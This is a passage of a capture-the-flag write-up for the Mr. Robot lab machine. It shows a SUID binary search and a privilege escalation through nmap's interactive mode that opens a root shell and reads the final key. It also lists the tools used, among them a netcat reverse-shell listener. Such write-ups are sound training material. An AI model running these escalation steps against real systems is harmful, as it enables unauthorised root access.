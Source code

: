
![mr.robot3](assets/mr.robot/35.png)

**SUID binaries and nmap interactive escalation:**

```text
$ find / -perm -u=s 2>/dev/null
[...]
/usr/local/bin/nmap

$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-10-10-199-99:/home/ubuntu# whoami
root
root@ip-10-10-199-99:/root# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

---

## 3. Tools used


* `nmap` (scanning, interactive used during escalation)
* `gobuster` (web directory enumeration)
* `nc` (reverse shell listener)
* `python3` (for `pty.spawn`)
* `ssh`, `ls`, `cat`, `find`, `sudo -l`, etc.

---


![mr.robot5](assets/mr.robot/3.png)
## 4. Reconnaissance & Enumeration
